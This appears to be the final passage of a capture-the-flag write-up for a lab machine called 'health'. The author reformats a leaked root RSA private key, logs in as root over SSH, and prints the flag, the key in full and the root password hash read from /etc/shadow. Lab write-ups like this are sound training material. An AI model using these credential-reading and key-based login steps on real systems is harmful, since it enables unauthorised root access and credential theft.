 Format the output to file, and grab `root.txt`.
```bash
➜  health cat unformated-id_rsa 
-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n

➜  health awk '{gsub(/\\n/,"\n")}1' unformated-id_rsa >> still-bad-format
➜  health awk '{gsub(/\\/,"")}1' still-bad-format > root-id_rsa
➜  health cat root-id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9/jG5NPqc2TfW4Nlj9gE
KScDJTrF0vXYnIy4yUwM4/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq
IMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH/
KuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL/XP1hN4B7egzjcV8Rphj6XRE3bhgH
7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8
W6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae
NPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9
t3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8/v/3Jeesznu+RJ+G0ezyUGfi0wpQRoD
C2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl
hnqFXpOWB771WnW9yH7/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x/LUyan++D+8
efiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2
1bLlZQECgYEA9iT13rdKQ/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj
nVhtw6NRFZ1Gfu21kPTCUTK34iX/p/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3
sqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou
fEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q
0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ
zkbVWX3JRDh4vdFOBGB/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT
rti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB
N1ZI4E59+O3Z15VgZ/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD
SsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o
++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp
UnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR/xkIP/Mog1a
vmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU
6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC/cQbPm
QeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G
-----END RSA PRIVATE KEY-----

➜  health chmod 400 root-id_rsa
➜  health ssh root@health.htb -i root-id_rsa

root@health:~# id && cat root.txt
uid=0(root) gid=0(root) groups=0(root)
b83ed10d472998b7cebf294c7a62719e

root@health:~# cat /etc/shadow
root:$6$CGK4O3ut$hQTwfTrsIVAL2.wTf.mNzkpipITwSLVjqTw5bN2bnXXQi8QU4lnrlnrBMZ87bzMMQEyuxnlLJIMGhKIFjZBFn/:19130:0:99999:7:::
```
